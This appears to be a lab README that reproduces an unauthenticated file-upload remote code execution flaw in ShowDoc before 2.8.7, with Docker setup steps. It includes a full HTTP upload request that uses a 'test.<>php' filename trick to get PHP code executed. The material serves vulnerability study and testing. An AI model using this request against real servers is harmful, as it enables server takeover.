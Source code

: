 # ShowDoc Unauthenticated File Upload and Remote Code Execution (CNVD-2020-26585)

[中文版本(Chinese version)](README.zh-cn.md)

ShowDoc is a tool greatly applicable for an IT team to share documents online. It can promote communication efficiency between members of a team.

ShowDoc version before 2.8.7, an unrestricted and unauthenticated file upload issue is found and attacker is able to upload a webshell and execute arbitrary code on server.

References:

- <https://github.com/star7th/showdoc/pull/1059>
- <https://github.com/star7th/showdoc/commit/fb77dd4db88dc23f5e570fc95919ee882aca520a>
- <https://github.com/star7th/showdoc/commit/e1cd02a3f98bb227c0599e7fa6b803ab1097597f>

## Vulnerable environment

Execute following command to start a ShowDoc server 2.8.2:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8080` to see the index page of ShowDoc.

## Exploit

Simply send following request to upload a PHP file:

```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0RdOKBR8AmAxfRyl
Content-Length: 213

------WebKitFormBoundary0RdOKBR8AmAxfRyl
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?=phpinfo();?>
------WebKitFormBoundary0RdOKBR8AmAxfRyl--

```

PHP file address will be respond:

![](1.png)

`phpinfo()` is executed successfully:

![](2.png)

